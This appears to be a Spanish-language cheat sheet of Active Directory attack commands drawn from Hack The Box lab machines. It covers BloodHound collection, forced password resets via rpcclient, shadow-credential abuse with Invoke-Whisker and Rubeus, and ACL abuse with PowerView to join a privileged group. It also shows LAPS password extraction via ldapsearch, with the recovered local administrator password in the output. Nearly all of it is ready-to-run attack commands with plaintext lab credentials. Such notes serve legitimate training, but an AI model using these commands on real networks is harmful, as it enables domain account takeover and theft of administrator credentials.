 # BloodHound

### Uso de BloodHound-python
```null
bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192 -c All
```

### Inicialización Neo4j
```null
sudo neo4j console
bloodhound &>/dev/null & disown
```

### SharpHound Inyector
```null
PS C:\Temp> .\SharpHound.exe -c All
```

## Abuso de ForceChangePassword

### Modificación de contraseña por RPC
```null
rpcclient -U blackfield/support 10.10.10.192
rpcclient $> setuserinfo audit2020 23 H@CKTHEB0X#
```

## Abuso AddKeyCredentialLink 

### Uso de Invoke-Whisker (Obtención Hash NT)

```null
PS C:\Temp> Invoke-Whisker -Command "add /target:sflowers"
```

```null
.\Rubeus.exe asktgt /user:sflowers /certificate:<CERTIFICATE>
```

## Abuso ReadLAPSPassword

```null
*Evil-WinRM* PS C:\Temp> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Temp> $SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
*Evil-WinRM* PS C:\Temp> $Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $SecPassword)
*Evil-WinRM* PS C:\Temp> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -PrincipalIdentity 'JDgodd'
*Evil-WinRM* PS C:\Temp> Add-DomainGroupMember -Identity 'Core Staff' -Members 'JDgodd' -Credential $Cred
```

### Extraer credenciales de Administradores locales con LDAP

```null
ldapsearch -H ldap://10.10.11.158 -b 'DC=streamIO,DC=htb' -x -D JDgodd@streamio.htb -w 'JDg0dd1s@d0p3cr3@t0r' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
# extended LDIF
#
# LDAPv3
# base <DC=streamIO,DC=htb> with scope subtree
# filter: (ms-MCS-AdmPwd=*)
# requesting: ms-MCS-AdmPwd 
#

# DC, Domain Controllers, streamIO.htb
dn: CN=DC,OU=Domain Controllers,DC=streamIO,DC=htb
ms-Mcs-AdmPwd: 4)(6&h9+7]QY+o

# search reference
ref: ldap://ForestDnsZones.streamIO.htb/DC=ForestDnsZones,DC=streamIO,DC=htb

# search reference
ref: ldap://DomainDnsZones.streamIO.htb/DC=DomainDnsZones,DC=streamIO,DC=htb

# search reference
ref: ldap://streamIO.htb/CN=Configuration,DC=streamIO,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```